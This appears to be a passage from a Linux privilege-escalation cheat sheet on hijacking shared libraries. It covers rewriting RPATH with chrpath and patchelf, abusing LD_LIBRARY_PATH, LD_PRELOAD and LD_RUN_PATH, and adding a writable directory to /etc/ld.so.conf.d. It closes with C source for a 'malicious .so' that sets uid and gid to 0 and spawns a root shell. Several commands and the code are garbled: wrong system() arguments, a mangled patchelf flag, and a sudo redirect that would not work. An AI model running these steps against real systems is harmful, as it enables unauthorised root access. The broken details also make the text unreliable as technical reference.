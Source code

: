 #### RUNPATH

**RPATH** designates the run-time search path hard-coded in an executable file or library.
We need also to know about **$ORIGIN** which is a special variable that indicate actual executable filename.

To set a library when **-rpath** has been set during the compilation you can do the following

```bash
chrpath -r "\$\ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

If it is not possible, we try the to use [patchelf](https://github.com/NixOS/patchelf) which is a simple utility for modifying existing ELF executables and libraries

```bash
patchelf — set-rpath "$ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

#### "/lib" & "/usr/lib"

#### "LD_LIBRARY_PATH & LD_RUN_PATH" Method

LD_LIBRARY_PATH: Search path environment variable for the linux shared library.
LD_PRELOAD: Influence the linkage of shared libraries and the resolution of symbols (functions) at runtime.
LD_RUN_PATH: Tell the dynamic link loader where to search for the dynamic shared libraries an application was linked against.

We can do the following:

```bash
# Either add the path where our malicious .so is
LD_LIBRARY_PATH export LD_LIBRARY_PATH=/tmp/
# Use LD_PRELOAD to force vulnerable_exe to use thomas.so
LD_PRELOAD=/tmp/thomas.so /usr/bin/vulnerable_exe
# Use LD_RUN_PATH to
LD_RUN_PATH=/tmp/thomas.so /usr/bin/vulnerable_exe
```

#### "/etc/ld.so.conf" Method

We need to check if we have write permission in **/etc/ld.so.conf(.d)**.

Some existing libraries do not contain enough information to allow the deduction of their type. Therefore, the /etc/ld.so.conf file format allows the specification of an expected type.

Let's add a directory where we have right access to **ld.so.conf**

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

And then create a shared library that is going to get us root

```c
//gcc -shared -o thomas.so -fPIC thomas.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void thomas(){
    setuid(0);
    setgid(0);
    system("/bin/sh",NULL,NULL);
}
```
